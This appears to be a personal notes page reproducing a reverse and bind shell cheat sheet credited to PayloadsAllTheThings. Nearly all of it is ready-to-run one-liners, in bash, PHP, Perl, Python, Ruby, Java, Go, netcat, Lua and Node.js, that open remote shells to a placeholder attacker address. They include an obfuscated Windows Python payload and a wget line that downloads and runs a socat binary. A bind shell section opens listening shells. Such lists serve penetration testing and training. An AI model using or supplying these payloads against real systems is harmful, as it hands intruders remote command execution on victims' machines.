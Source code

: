  [Payload All the Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp)

#Shells #UsefulLinks
___________________________________________
# Reverse Shells
NOTE: Don't forget to check with others shell : sh, ash, bsh, csh, ksh, zsh, pdksh, tcsh, bash

###### *[Bash Shells]* 
Bash TCP
```bash
1. bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
2. 0<&196;exec 196<>/dev/tcp/10.0.0.1/4242; sh <&196 >&196 2>&196
```

Bash UDP
Note: Victim
```bash
sh -i >& /dev/udp/10.0.0.1/4242 0>&1
```
Note: Listener
```nc
nc -u -lvnp 4242
```

#### Socat
```socat
1. user@attack$ socat file:`tty`,raw,echo=0 TCP-L:4242
2. user@victim$ /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:4242``
3. user@victim$ wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:4242
```

###### *[Php Shells]*
```php
1. php -r '$sock=fsockopen("10.0.0.1",4242);exec("/bin/sh -i <&3 >&3 2>&3");'
2. php -r '$sock=fsockopen("10.0.0.1",4242);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
3. php -r '$sock=fsockopen("10.0.0.1",4242);`/bin/sh -i <&3 >&3 2>&3`;'
4. php -r '$sock=fsockopen("10.0.0.1",4242);system("/bin/sh -i <&3 >&3 2>&3");'
5. php -r '$sock=fsockopen("10.0.0.1",4242);passthru("/bin/sh -i <&3 >&3 2>&3");'
6. php -r '$sock=fsockopen("10.0.0.1",4242);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
```

###### *[Perl Shells]*
```perl
perl -e 'use Socket;$i="10.0.0.1";$p=4242;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
```perl
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:4242");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```
NOTE: Windows only
```perl
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:4242");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

###### *[Python Shells]*
Note: IPv4
```python
export RHOST="10.0.0.1";export RPORT=4242;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

Note: IPv6
```python
python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",4242,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");'
```
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Note: Windows Only
```python
C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('10.0.0.1', 4242)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"
```

###### *[Ruby Shells]*
```ruby
ruby -rsocket -e 'f=TCPSocket.open("10.0.0.1",4242).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
```ruby
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("10.0.0.1","4242");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```
NOTE: Windows only
```ruby
ruby -rsocket -e 'c=TCPSocket.new("10.0.0.1","4242");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

###### *[Java Shells]*
```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/4242;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

###### *[Golang]*
```go
echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","10.0.0.1:4242");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go
```

###### *[Netcat Traditional]*
```nc
nc -e /bin/sh 10.0.0.1 4242
-e /bin/bash 10.0.0.1 4242
c -c bash 10.0.0.1 4242
```

#### Ncat
```ncat
ncat 10.0.0.1 4242 -e /bin/bash
ncat --udp 10.0.0.1 4242 -e /bin/bash
```

#### LUA
Note: Linux Only
```LUA
lua -e "require('socket');require('os');t=socket.tcp();t:connect('10.0.0.1','4242');os.execute('/bin/sh -i <&3 >&3 2>&3');"
``` 
Note: Windows Only
```LUA
lua5.1 -e 'local host, port = "10.0.0.1", 4242 local socket = require("socket") local tcp = socket.tcp() local io = require("io") tcp:connect(host, port); while true do local cmd, status, partial = tcp:receive() local f = io.popen(cmd, "r") local s = f:read("*a") f:close() tcp:send(s) if status == "closed" then break end end tcp:close()'
```

#### NodeJs
```NodeJS
1. ```
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(4242, "10.0.0.1", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();```
2. `require('child_process').exec('nc -e /bin/sh 10.0.0.1 4242')`
3. `-var x = global.process.mainModule.require
-x('child_process').exec('nc 10.0.0.1 4242 -e /bin/bash')`
4. `https://gitlab.com/0x4ndr3/blog/blob/master/JSgen/JSgen.py`
```

----------------------------------------------------------

## Bind Shells

#### Perl
```Perl
perl -e 'use Socket;$p=51337;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));\
bind(S,sockaddr_in($p, INADDR_ANY));listen(S,SOMAXCONN);for(;$p=accept(C,S);\
close C){open(STDIN,">&C");open(STDOUT,">&C");open(STDERR,">&C");exec("/bin/bash -i");};'
```

#### Python Bind Shell
```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",51337));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

Note: explanded version
```python
import socket as s,subprocess as sp;

s1 \= s.socket(s.AF\_INET, s.SOCK\_STREAM);
s1.setsockopt(s.SOL\_SOCKET, s.SO\_REUSEADDR, 1);
s1.bind(("0.0.0.0", 51337));
s1.listen(1);
c, a \= s1.accept();

while True: 
    d \= c.recv(1024).decode();
    p \= sp.Popen(d, shell\=True, stdout\=sp.PIPE, stderr\=sp.PIPE, stdin\=sp.PIPE);
    c.sendall(p.stdout.read()+p.stderr.read())
```

#### PHP Bind Shell
```php
php -r '$s=socket\_create(AF\_INET,SOCK\_STREAM,SOL\_TCP);socket\_bind($s,"0.0.0.0",51337);\\
socket\_listen($s,1);$cl=socket\_accept($s);while(1){if(!socket\_write($cl,"$ ",2))exit;\\
$in=socket\_read($cl,100);$cmd=popen("$in","r");while(!feof($cmd)){$m=fgetc($cmd);\\
 socket\_write($cl,$m,strlen($m));}}'
```

#### Ruby Bind Shell
```
ruby -rsocket -e 'f=TCPServer.new(51337);s=f.accept;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",s,s,s)'
``` 
Note: Netcat Tradition Bind Shell
```
nc -nlvp 51337 -e /bin/bash
```
Note: Netcat OpenBsd Bind Shell
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 51337 >/tmp/f
```
Note: Socat Bind Shell
```
user@attacker$ socat FILE:`tty`,raw,echo=0 TCP:target.com:12345 
user@victim$ socat TCP-LISTEN:12345,reuseaddr,fork EXEC:/bin/sh,pty,stderr,setsid,sigint,sane
```

#### Powershell Bind Shell

##### w/ powercat https://github.com/besimorhino/powercat
Note: Victim (listen)
```powercat.ps1
powercat \-l \-p 7002 \-ep
```

Note: Connect from attacker
```powercat.ps1
powercat \-c 127.0.0.1 \-p 7002
```

